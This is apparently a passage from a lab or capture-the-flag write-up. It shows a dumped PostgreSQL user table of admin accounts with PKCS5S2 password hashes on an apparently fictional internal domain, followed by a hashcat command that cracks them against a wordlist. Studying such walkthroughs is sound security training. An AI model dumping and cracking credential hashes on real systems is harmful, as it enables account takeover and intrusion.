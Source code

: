 ```postgresql

	   id    |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
	---------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
	  458753 | admin          | admin           | T      | 2022-08-17 15:51:40.803 | 2022-08-17 15:51:40.803 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | c2ec8ebf-46d9-4f5f-aae6-5af7efadb71c |       327681 | {PKCS5S2}WbziI52BKm4DGqhD1/mCYXPl06IAwV7MG7UdZrzUqDG8ZSu15/wyt3XcVSOBo6bC
	 1212418 | trouble        | trouble         | T      | 2022-08-18 10:31:48.422 | 2022-08-18 10:31:48.422 |            |                  | Trouble       | trouble         | Trouble                | trouble                | trouble@industries.internal        | trouble@industries.internal        | 164eb9b5-b6ef-4c0f-be76-95d19987d36f |       327681 | {PKCS5S2}A+U22DLqNsq28a34BzbiNxzEvqJ+vBFdiouyQg/KXkjK0Yd9jdfFavbhcfZG1rHE
	 1212419 | happiness      | happiness       | T      | 2022-08-18 10:33:49.058 | 2022-08-18 10:33:49.058 |            |                  | Happiness     | happiness       | Happiness              | happiness              | happiness@industries.internal      | happiness@industries.internal      | b842163d-6ff5-4858-bf54-92a8f5b28251 |       327681 | {PKCS5S2}R7/ABMLgNl/FZr7vvUlCPfeCup9dpg5rplddR6NJq8cZ8Nqq+YAQaHEauk/HTP49
	 1212417 | database_admin | database_admin  | T      | 2022-08-18 10:24:34.429 | 2022-08-18 10:24:34.429 | Database   | database         | Admin Account | admin account   | Database Admin Account | database admin account | database_admin@industries.internal | database_admin@industries.internal | 34901af8-b2af-4c98-ad1d-f1e7ed1e52de |       327681 | {PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0
	 1212420 | hr_admin       | hr_admin        | T      | 2022-08-18 18:39:04.59  | 2022-08-18 18:39:04.59  | HR         | hr               | Admin         | admin           | HR Admin               | hr admin               | hr_admin@industries.internal       | hr_admin@industries.internal       | 2f3cc06a-7b08-467e-9891-aaaaeffe56ea |       327681 | {PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV
	 1441793 | rdp_admin      | rdp_admin       | T      | 2022-08-20 20:46:03.325 | 2022-08-20 20:46:03.325 | RDP        | rdp              | Admin         | admin           | RDP Admin              | rdp admin              | rdp_admin@industries.internal      | rdp_admin@industries.internal      | e9a9e0f5-42a2-433a-91c1-73c5f4cc42e3 |       327681 | {PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34
	(6 rows)
	
	(END)
```



- We can then save the hashes `{PKCS5S2}WbziI52BKm4DGqhD1/mCYXPl06IAwV7MG7UdZrzUqDG8ZSu15/wyt3XcVSOBo6bC` to a text file and crack with **hashcat**
```bash
hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt 
	hashcat (v6.2.5) starting
	
	OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
	=====================================================================================================================================
	* Device #1: pthread-11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz, 2917/5899 MB (1024 MB allocatable), 4MCU. 
	
	Minimum password length supported by kernel: 0
	Maximum password length supported by kernel: 256
	
```